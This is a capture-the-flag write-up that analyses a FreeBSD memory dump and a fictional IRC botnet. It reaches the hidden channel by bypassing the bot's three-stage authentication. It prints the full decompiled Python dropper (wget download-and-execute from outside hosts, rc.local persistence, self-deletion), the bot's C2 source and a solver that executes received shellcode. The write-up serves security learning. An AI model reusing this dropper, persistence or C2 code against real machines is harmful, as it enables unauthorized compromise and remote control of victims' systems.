

# Botnet - The Final Bypass
> rafael_p (aka rafaeleeto) works as Principal Hacker Engineer in a topsecret hacking division of the Government of Rhiza, called HARPA (Highly Advanced Research Projects Agency). Laura got access to a Botnet Project he is working on, called "Butcher Network". It is a "Bot Manager", a new concept in the context of Botnets, where a central bot controls all the others. It has several protection mechanisms, to prevent unauthorized access, including a very interesting dropper. We were able to get a dump of the machine that rafael_p uses for his tests. Your goal is to be able to extract the bot to try to understand its operation, connect to the network and bypass all its protections to pwn the instance of this bot that is running, to got access to its channel on C2. With that, we will get to know all the other administrators who are also involved in this project. This information will be very useful in the future.
## Analyzing the memory dump
In this challenge we were given a 2 GB memory dump of a virtual machine supposedly used for testing a botnet.

First thing that we had to do was to identify the OS that this memdump was taken from. After taking a quick look at the strings output it was pretty clear that this was taken from a FreeBSD install - very likely FreeBSD 12.1.
The next thing we tried to do was to throw it into volatility, but volatility doesn't support freebsd, so what do we do now?

We were able to find out that someone has made initial support for freebsd that was present on the [freebsd_support branch of volatility](https://github.com/volatilityfoundation/volatility/tree/freebsd_support), with available support the only thing we were lacking was a volatility profile. That was easy enough to do with the included tools and now we were able to look at the process list of the machine.

```
» volatility --profile=FreeBSD-12_1-RELEASE-GENERIC-amd64 -f ./lab-server-cbeba6db.vmem freebsd_psaux

Pid Name             Pathname                       Arguments                                                  
941 python2.7        /usr/local/bin/python2.7       python2 crond                                              
836 csh              /bin/csh                       -csh                                                       
831 getty            /usr/libexec/getty             /usr/libexec/getty Pc ttyv7                                
830 getty            /usr/libexec/getty             /usr/libexec/getty Pc ttyv6                                
829 getty            /usr/libexec/getty             /usr/libexec/getty Pc ttyv5                                
828 getty            /usr/libexec/getty             /usr/libexec/getty Pc ttyv4                                
827 getty            /usr/libexec/getty             /usr/libexec/getty Pc ttyv3                                
826 getty            /usr/libexec/getty             /usr/libexec/getty Pc ttyv2                                
825 getty            /usr/libexec/getty             /usr/libexec/getty Pc ttyv1                                
824 login            /usr/bin/login                 login [pam]                                                
776 cron             /usr/sbin/cron                 /usr/sbin/cron -s                                          
772 sendmail         /usr/libexec/sendmail/sendmail sendmail: Queue runner@00:30:00 for /var/spool/clientmqueue
769 sendmail         /usr/libexec/sendmail/sendmail sendmail: accepting connections                            
740 sshd             /usr/sbin/sshd                 /usr/sbin/sshd                                             
539 syslogd          /usr/sbin/syslogd              /usr/sbin/syslogd -s                                       
468 devd             /sbin/devd                     /sbin/devd                                                 
424 dhclient         /sbin/dhclient                 dhclient: em0                                              
359 dhclient         /sbin/dhclient                 dhclient: em0 [priv]                                       
356 dhclient         /sbin/dhclient                 dhclient: system.syslog                                    
 22 syncer                                                                                                     
 21 vnlru                                                                                                      
 20 bufdaemon                                                                                                  
 19 vmdaemon                                                                                                   
 18 pagedaemon                                                                                                 
 17 soaiod4                                                                                                    
 16 soaiod3                                                                                                    
  9 soaiod2                                                                                                    
  8 soaiod1                                                                                                    
  7 rand_harvestq                                                                                              
  6 sctp_iterator                                                                                              
 15 usb                                                                                                        
  5 mpt_recovery0                                                                                              
  4 cam                                                                                                        
 14 sequencer 00                                                                                               
  3 crypto returns 0                                                                                           
  2 crypto                                                                                                     
 13 geom                                                                                                       
 12 intr                                                                                                       
 11 idle                                                                                                       
  1 init             /sbin/init                     /sbin/init --                                              
 10 audit                                                                                                      
  0 kernel
```

We could see that aside from normal looking processes there was one suspicious looking python2 process that ran a file called `crond`.

Sadly the freebsd plugin did not have any process dumping features so we resorted to grepping the file for any mentions of `crond` and filtering the results further.

After few different searches we stumbled upon a line in the strings that ran wget on a http url that had the same name as the original file ran with python2.
```
crond.pyt
createRC
wget -O /etc/X11/.crond http://harpa.world/binaries/crond(
crond.pyt
saveDropper
```

## Analyzing the dropper
The file located on the server turned out to be python 2.7 bytecode, after decompiling it we were left with this:
```py
import socket, time, os, random
SERVER = 'distribute.epicmilk.com'
MESSAGE = ''

def wait():
    time.sleep(0.5)


def finish():
    os.system('rm crond')


def addtoRC():
    os.system("echo 'python2 /etc/X11/.crond' >> /etc/rc.local")
    wait()
    os.system("echo 'exit 0' >> /etc/rc.local")


def createRC():
    os.system("echo '#!/bin/sh -e' > /etc/rc.local")
    wait()
    os.system('chmod +x /etc/rc.local')


def saveDropper():
    os.system('wget -O /etc/X11/.crond http://harpa.world/binaries/crond')


def downloadMalware(hash):
    os.system('wget -O /etc/X11/.backbone http://butcher.1337.cx/proj/' + hash + '/master/backbone')
    # 726fd5a10983ebc4a76cd32108b594fe http://butcher.1337.cx/proj/726fd5a10983ebc4a76cd32108b594fe/master/backbone


def executeMalware():
    number = random.choice(range(0, 101))
    os.system("python2 /etc/X11/.backbone irc.teleforce.space 1 '#' Backbone" + str(number) + " 'Butcher Botnet Manager' 0 skyn &")
    wait()
    os.system('rm /etc/X11/.backbone')


def checkPersistence():
    if os.path.isfile('/etc/rc.local'):
        rc = open('/etc/rc.local').read()
        if '/etc/X11' not in rc:
            if os.path.isfile('/etc/X11/.crond'):
                os.system("sed -i '$d' /etc/rc.local")
                addtoRC()
            else:
                saveDropper()
                os.system("sed -i '$d' /etc/rc.local")
                addtoRC()
        if not os.path.isfile('/etc/X11/.crond'):
            saveDropper()
    else:
        createRC()
        if os.path.isfile('/etc/X11/.crond'):
            addtoRC()
        else:
            saveDropper()
            addtoRC()


def knockPorts(port1, port2, port3):
    SOCK = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    server = socket.gethostbyname(SERVER)
    print 'Knocking: %s %s %s' % (port1, port2, port3)
    SOCK.sendto(MESSAGE, (server, port1))
    wait()
    SOCK.sendto(MESSAGE, (server, port2))
    wait()
    SOCK.sendto(MESSAGE, (server, port3))
    wait()
    SOCK.close()


def getHash():
    try:
        PAYLOAD = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        PAYLOAD.bind(('0.0.0.0', 1337))
        PAYLOAD.settimeout(5)
        PAYLOAD.listen(1)
        conn, addr = PAYLOAD.accept()
        data = conn.recv(1024).decode('ascii')
        PAYLOAD.close()
        return data
    except:
        pass


knockPorts(1332, 1331, 1337)
hash = getHash()
downloadMalware(hash)
executeMalware()
checkPersistence()
finish()
```

The program seems to be the "interesting dropper" mentioned in the task description, it knocks on some ports on a server which results in the server giving it a unique hash which can then be used to download `backbone.py`.
The file is then ran with some additional arguments and the program cleans up.

To get the so called hash required to download the backbone script the actions had to be performed on a server that the remote server could directly connect to, so we could receive the hash value directly.

## Analyzing the botnet script
We fetched the backbone script and started analyzing it:
```py
#!/usr/bin/python
# -*- coding: utf-8 -*-

import socket
import sys
import time
import subprocess
import random
from manager import *
from attacks import *

class Bot(object):

	servidor = str()
	porta = int()
	canal = str()
	nickname = str()
	realname = str()
	hostname = str()
	ident = str()

	def __init__(self, servidor, porta, canal, nickname, realname, hostname, ident, prefer_ipv6=0):

		if prefer_ipv6:
			if servidor.split(":")[0].isdigit():
				self.servidor = servidor
				ipv6 = 1
			else:
				try:
					self.servidor = socket.getaddrinfo(servidor, None, socket.AF_INET6)[0][4][0]
					ipv6 = 1
				except:
					self.servidor = socket.gethostbyname(servidor)
					ipv6 = 0
		else:
			if servidor.split(".")[0].isdigit():
				self.servidor = servidor
				ipv6 = 0
			else:
				self.servidor = socket.gethostbyname(servidor)
				ipv6 = 0

		self.porta = porta
		self.canal = canal
		self.nickname = nickname
		self.realname = realname
		self.hostname = hostname
		self.ident = ident
		self.authorized = {}
		self.temp = {}
		self.connect(ipv6)
		self.interage()

	def send_data(self, comando):
		self.IRC.send(comando + '\n')

	def readbuffer(self):
		buffer = self.IRC.recv(1337)
		return buffer

	def ping(self):
		self.send_data("PONG :Pong")

	def join(self, canal):
		self.send_data("JOIN " + canal)

	def badcommand(self, nick):
		self.send_data("PRIVMSG " + nick + " :Bad command!")

	def join(self, canal):
		self.send_data("JOIN " + canal)

	def stage1(self, buffer):
		try:
			if "rafael_p" in buffer.split("!")[0] and "rafaeleet0" in buffer.split("!")[1].split("@")[0]:
				if "".join((buffer.split()[0].split("!")[1].split("@")[1].split(".")[-4]) + buffer.split()[0].split("!")[1].split("@")[1].split(".")[-1] + "." + buffer.split()[0].split("!")[1].split("@")[1].split(".")[-2]).encode("hex") == "696e7465726e616c6d6f6e737465722e62757463686572": 
					return 1
				else:
					return 0
			else: 
				return 0
		except: 
			return 0

	def stage2(self, buffer):
		self.IRC.settimeout(2)
		try:
			self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") +  " :\001WHO\001")
			buffer = self.readbuffer()
			if buffer.split()[1] == "NOTICE" and buffer.split()[3].replace(":","") == "\001YourMasterModaFucka\001":
				self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") +  " :Passwd?")
				buffer = self.readbuffer()
				if buffer.split()[3].replace(":","") == "/FuCkR3b3ll10us":
					self.stage3(buffer)
				else: raise Exception()
			else: raise Exception()
		except:
			self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :Stage2 fail: https://www.youtube.com/watch?v=ZZ5LpwO-An4 ;) HEY YEY AAEY AAAE YAEYAA")
			self.interage()

	def stage3(self, buffer):
		self.IRC.settimeout(2)
		try:
			opcodes1, opcodes2, resshellcode = shellcode(buffer.split("!")[0].replace(":",""))
			self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :" + opcodes1)
			self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :" + opcodes2)
			buffer = self.readbuffer()
			if buffer.split()[3].replace(":","") == resshellcode:
				self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :Authenticated! Have fun Master!")
				self.authorized[buffer.split("!")[0].replace(":","")] = time.time()
				self.interage()
			else: raise Exception()
		except:
			self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :Stage3 fail: https://www.youtube.com/watch?v=cwhLueAWItA ;) turulululu ah ah ah!")
			self.interage()

	def connect(self, ipv6):

		if ipv6: self.IRC = socket.socket(socket.AF_INET6, socket.SOCK_STREAM)
		else: self.IRC = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		self.IRC.connect((self.servidor, self.porta))
		self.send_data("NICK " + self.nickname)
		self.send_data("USER %s %s %s :%s" % (self.ident, self.hostname, self.servidor, self.realname))

		bufn = 0
		buft = 0
		buftmp = []

		while True:

			if bufn == buft:
				buftmp = self.readbuffer()
				buft = len(buftmp.split("\r\n"))-1
				bufn = 0
			else:
				bufn += 1

			buffer = buftmp.split("\r\n")[bufn]

			if "PING" in buffer.strip("\r\n"):
				resposta = buffer.split()[1].replace(":", "")
				self.send_data("PONG :" + resposta)

			if "MODE " + self.nickname + " :+i" in buffer:
				self.join(self.canal)
				break

	def interage(self):

		self.IRC.settimeout(None)

		while True:

			buffer = self.readbuffer()

			if "PING" in buffer:
				self.ping()

			if "/@" in buffer:
				tempotmp = time.time()
				if self.temp.has_key(buffer.split()[3].replace(":","")):
					if self.temp[buffer.split()[3].replace(":","")][2] == buffer.split("!")[0].replace(":",""):
						if (tempotmp - self.temp[buffer.split()[3].replace(":","")][0]) > 120:
							del self.temp[buffer.split()[3].replace(":","")]
							self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :Expired, add again!")
						else:
							cmd = self.temp[buffer.split()[3].replace(":","")][1].split()[0]
							args = " ".join(buffer.split()[4:]) 
							self.send_data(cmd + " " + args)

			if "PRIVMSG" in buffer and "!abracadabra" in buffer:
				identity = self.stage1(buffer)
				if identity: 
					self.stage2(buffer)
				else: 
					self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :Stage1 fail: https://www.youtube.com/watch?v=2Z4m4lnjxkY ;) trolololo lololo lololo")

			if "!cmd" in buffer:
				if buffer.split("!")[0].replace(":","") in self.authorized:
					tempocmd = time.time()
					if (tempocmd - self.authorized[buffer.split("!")[0].replace(":","")]) > 300:
						del self.authorized[buffer.split("!")[0].replace(":","")]
						self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :Expired, authenticate again!")
					else:
						if buffer.split()[4] == "host":
							host = buffer.strip("\r\n").split()[5]
							try:
								result = subprocess.check_output(["host", host])
								for linha in result.split("\n"):
									self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :" + linha)
									time.sleep(0.5)

							except:
								self.badcommand(buffer.split("!")[0].replace(":",""))

						elif buffer.split()[4] == "ping":
							host = buffer.strip("\r\n").split()[5]
							try:
								result = subprocess.check_output(["ping", "-c", "3", host])
								for linha in result.split("\n"):
									self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :" + linha)
									time.sleep(0.5)
							except:
								self.badcommand(buffer.split("!")[0].replace(":",""))

						elif buffer.split()[4] == "join":
							canal = buffer.strip("\r\n").split()[5]
							self.join(canal)

						elif buffer.split()[4] == "tmp":
							cmd = buffer.split()[5]
							arg = buffer.split()[6]
							alias = buffer.split()[7]

							if buffer.split()[7][0:2] != "/@":
								self.badcommand(buffer.split("!")[0].replace(":",""))
								self.interage()

							if self.temp.has_key(alias):
								self.badcommand(buffer.split("!")[0].replace(":",""))
								self.interage()

							if arg <> "#channel" and arg <> "nickname":
								self.badcommand(buffer.split("!")[0].replace(":",""))
								self.interage()

							if filter(cmd):
								command = "".join(buffer.split()[5] + " " + buffer.split()[6] + " " + buffer.split()[7])
								self.temp[alias] = [time.time(), command, buffer.split("!")[0].replace(":","")]

							else:
								self.badcommand(buffer.split("!")[0].replace(":",""))

						else:
							self.badcommand(buffer.split("!")[0].replace(":",""))

				else:
					self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :Authenticate!")

MeuBot = Bot(sys.argv[1], int(sys.argv[2]), sys.argv[3], sys.argv[4], sys.argv[5], int(sys.argv[6]), sys.argv[7])
```

The bot seems to accept the passed cmd arguments and connects to an IRC server.
```
irc.teleforce.space 1 '#' BackboneXX 'Butcher Botnet Manager' 0 skyn
```
The first two are the hostname and port of the IRC server used for comms, third one is the name of the channel that the bot should try to join, fourth one is the nickname, fifth one is the realname, sixth is hostname and lastly seventh is the identity.

After connecting to the server, it listens for any messages from the IRC server and parses them accordingly to the if statements:
- if the server ping - pongs the server back
- if it gets a private message with `!abracadabra` in it it starts the authentication process
- if it finds a `!cmd` in the message it checks if the user has authenticated and if so, parses the command
- if it finds a `/@` it checks if the user is authenticated and tries to execute an alias bound to that command

So we have to somehow authenticate ourselves with the bot.

The irc server the bot connected to contained multiple users, including multiple bots but only few were ran by the organizers.
The first two stages could be tried on any bot that connected to the network but the 3rd one could only be obtained from the legit bots since user-run ones did not have access to some functions. (Those turned out to be: Backbone91/Backbone94/Backbone97)

## Bypassing stage 1
First comes `stage1`:
```py
	def stage1(self, buffer):
		try:
			if "rafael_p" in buffer.split("!")[0] and "rafaeleet0" in buffer.split("!")[1].split("@")[0]:
				if "".join((buffer.split()[0].split("!")[1].split("@")[1].split(".")[-4]) + buffer.split()[0].split("!")[1].split("@")[1].split(".")[-1] + "." + buffer.split()[0].split("!")[1].split("@")[1].split(".")[-2]).encode("hex") == "696e7465726e616c6d6f6e737465722e62757463686572": 
					return 1
				else:
					return 0
			else: 
				return 0
		except: 
			return 0
```

After a bit of cleaning up the check looks as follows:
```py
def stage1(buffer):
    username = buffer.split("!")[0]
    nickname = buffer.split("!")[1].split("@")[0]
    hostname = buffer.split()[0].split("!")[1].split("@")[1]

    try:
        if "rafael_p" in nickname and "rafaeleet0" in username:
            tocheck = "".join((hostname.split(".")[-4]) + hostname.split(".")[-1] + "." + hostname.split(".")[-2])
            # if tocheck.encode().hex() == "696e7465726e616c6d6f6e737465722e62757463686572":
            if tocheck.encode('hex') == "696e7465726e616c6d6f6e737465722e62757463686572":
                return 1
            else: 
                return -3
        else: 
            return -2
    except Exception as e: 
        print(e)
        return -1
```

It checks if our username contains `rafaeleet0`, if nickname contains `rafael_p` and if our hostname equals to `internalmonster.butcher` after a transformation.

The first two checks are fairly easy to beat, we just have to log into the IRC server with a username/nickname that contain those phrases and we're good to go.
The last check is tricky, it grabs the hostname of our user and transforms it in this manner:
```
?????.internal.?????.butcher.monster -> internalmonster.butcher
```
Which means we have to make our hostname on the IRC stick to that format. (the first question mark block is because of how the IRC server changes the hostname afterwards, it strips the first segment and puts some random characters instead of it. To prevent it from overwriting `internal` we put something there ourselves)
Because of the ways the IRC server verifies any user set hostnames it requires us to set both a PTR pointer for our IP and an `A` record that points back at us.

Thankfully the domain used here is one of the domains listed on afraid.org, a service offering free DNS hosting and free subdomains.

After registering an account, grabbing a subdomain that follows the format and pointing it back at our IP with an `A` record and set up a corresponding PTR record we were able to get past the first stage.

## Bypassing stage 2
```py
	def stage2(self, buffer):
		self.IRC.settimeout(2)
		try:
			self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") +  " :\001WHO\001")
			buffer = self.readbuffer()
			if buffer.split()[1] == "NOTICE" and buffer.split()[3].replace(":","") == "\001YourMasterModaFucka\001":
				self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") +  " :Passwd?")
				buffer = self.readbuffer()
				if buffer.split()[3].replace(":","") == "/FuCkR3b3ll10us":
					self.stage3(buffer)
				else: raise Exception()
			else: raise Exception()
		except:
			self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :Stage2 fail: https://www.youtube.com/watch?v=ZZ5LpwO-An4 ;) HEY YEY AAEY AAAE YAEYAA")
			self.interage()
```
The second stage sends us a CTCP message `WHO` that we have to reply to with a NOTICE CTCP message, then it proceeds to ask us for a password which is very nicely provided for us.

## Bypassing stage 3
```py
	def stage3(self, buffer):
		self.IRC.settimeout(2)
		try:
			opcodes1, opcodes2, resshellcode = shellcode(buffer.split("!")[0].replace(":",""))
			self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :" + opcodes1)
			self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :" + opcodes2)
			buffer = self.readbuffer()
			if buffer.split()[3].replace(":","") == resshellcode:
				self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :Authenticated! Have fun Master!")
				self.authorized[buffer.split("!")[0].replace(":","")] = time.time()
				self.interage()
			else: raise Exception()
		except:
			self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :Stage3 fail: https://www.youtube.com/watch?v=cwhLueAWItA ;) turulululu ah ah ah!")
			self.interage()
```
This stage generated some shellcode, sent it over and checked if the result was correct.

The shellcode sent from the bot turned out to be x86-64 shellcode that generates a random string.
We were able to just wrap the shellcode in a small c program to get the output and pass it back to the bot.

After this, we were successfully authenticated and could execute commands.

## Crafting a payload for the bot
The bot seemed to accept several commands with `!cmd`:
- `host` which would just resolve a hostname for a given IP
- `ping` which would just ping the address
- `join` pretty clear what it did
- `tmp` which seemed to do some parsing and set a value in `self.temp`

By analyzing the handler for the `/@` case, it seemed to check for a given entry in `self.temp` and if everything was correct, it would send the commands straight to the bot's socket allowing us to run IRC commands as the bot if successfully executed.

To first set the "alias" we had to follow the format which seemed to be:
```
!cmd tmp <IRC COMMAND> argument(either #channel or nickname) alias(had to be /@something)
```

Because we wanted to get into the `#` channel, the target command we would want to run would be `INVITE username #`
The alias set command looked like this: `!cmd tmp INVITE nickname /@sz`

After setting the alias we now had to execute it:
```py
			if "/@" in buffer:
				tempotmp = time.time()
				if self.temp.has_key(buffer.split()[3].replace(":","")):
					if self.temp[buffer.split()[3].replace(":","")][2] == buffer.split("!")[0].replace(":",""):
						if (tempotmp - self.temp[buffer.split()[3].replace(":","")][0]) > 120:
							del self.temp[buffer.split()[3].replace(":","")]
							self.send_data("PRIVMSG " + buffer.split("!")[0].replace(":","") + " :Expired, add again!")
						else:
							cmd = self.temp[buffer.split()[3].replace(":","")][1].split()[0]
							args = " ".join(buffer.split()[4:]) 
							self.send_data(cmd + " " + args)
```


This code block checked for "alias expiry time" and if everything was fine, it ran the saved command with our passed arguments.
The trigger was simply `/@sz szymex73 # aa aa` (The aa's were added here because of some parsing problems we had).

With the payload successfully executed we were given and invite to the secret `#` channel and could now see the admin list.

> `CTF-BR{deadcow,kubben,marmota,rafael_p,sputnick}`


## Full script
My full solver script below:
```py
from pwn import *
import os

recpt = "Backbone94" # Backbone91/Backbone94/Backbone97 - hosted by organizers
sock = remote('irc.teleforce.space', 1)

sock.sendline('NICK rafael_p0 rafael_p')
sock.sendline('USER rafaeleet0s rafaeleet0s irc.teleforce.space :rafaeleet0s')

cc_template = """
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>

unsigned char code[] = (
	"SHELLCODE_HERE"
);

int main(){
  int r =  mprotect((void *)((int)code & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
  int (*ret)() = (int(*)())code;
  return ret();
}

"""

def sc_compile(shellcode):
    code = cc_template.replace('SHELLCODE_HERE', shellcode)
    os.system('rm -f temp.c temp temp_out')
    f = open('./temp.c', 'w')
    f.write(code)
    f.close()
    os.system('gcc temp.c -fno-stack-protector -z execstack -no-pie -o temp')
    os.system('./temp 0>temp_out')
    rand_code = open('./temp_out', 'r').read()
    os.system('rm -f temp.c temp temp_out')
    return rand_code

bufn = 0
buft = 0
buftmp = []

while True:
    if bufn == buft:
        buftmp = sock.recv(1337)
        buft = len(buftmp.split(b"\r\n"))-1
        bufn = 0
    else:
        bufn += 1

    buffer = buftmp.split(b"\r\n")[bufn]

    if b"PING" in buffer.strip(b"\r\n"):
        resposta = buffer.split()[1].replace(b":", b"")
        sock.sendline(b"PONG :" + resposta)

    if b"MODE" in buffer and b" :+i" in buffer:
        break

sock.recv(1337)
sock.sendline(b'PRIVMSG ' + recpt.encode() + b' :!abracadabra')
print(sock.recvuntil(b'WHO\001\r\n'))
sock.sendline(b'NOTICE ' + recpt.encode() + b' :\001YourMasterModaFucka\001')
print(sock.recvuntil(b'Passwd?\r\n'))
sock.sendline(b'PRIVMSG ' + recpt.encode() + b' :/FuCkR3b3ll10us')
sc1 = sock.recvuntil('\r\n').split(b':')[2][:-2]
sc2 = sock.recvuntil('\r\n').split(b':')[2][:-2]
print("Shellcode:")
shellcode = sc1.decode() + sc2.decode()
print(shellcode)
shellcode_result = sc_compile(shellcode)
sock.sendline(b'PRIVMSG ' + recpt.encode() + b' :' + shellcode_result.encode())
print(sock.recvuntil(b':Authenticated! Have fun Master!\r\n'))
sock.sendline(b'PRIVMSG ' + recpt.encode() + b' :!cmd tmp INVITE nickname /@sz')
sock.sendline(b'PRIVMSG ' + recpt.encode() + b' :/@sz szymex73 # aa aa')
sock.interactive()
```
